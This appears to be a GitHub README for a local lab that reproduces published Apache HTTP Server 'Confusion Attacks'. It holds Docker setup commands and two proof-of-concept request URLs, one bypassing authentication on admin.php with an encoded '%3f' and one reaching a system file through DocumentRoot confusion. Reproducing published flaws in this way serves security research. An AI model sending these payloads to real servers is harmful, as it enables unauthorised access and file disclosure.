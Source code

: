 # orange-confusion-attacks

Repro for Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!

https://blog.orange.tw/posts/2024-08-confusion-attacks-en/

## To build and run:

```
docker build -t my-php-website .
docker run -p 80:80 my-php-website
```

## To repro the issues

### Filename Confusion
```
http://127.0.0.1/admin.php => 401
http://127.0.0.1/admin.php%3ftest.php => 200
```

### DocumentRoot Confusion
```
http://127.0.0.1/html/usr/share/doc/hostname/copyright%3f
```
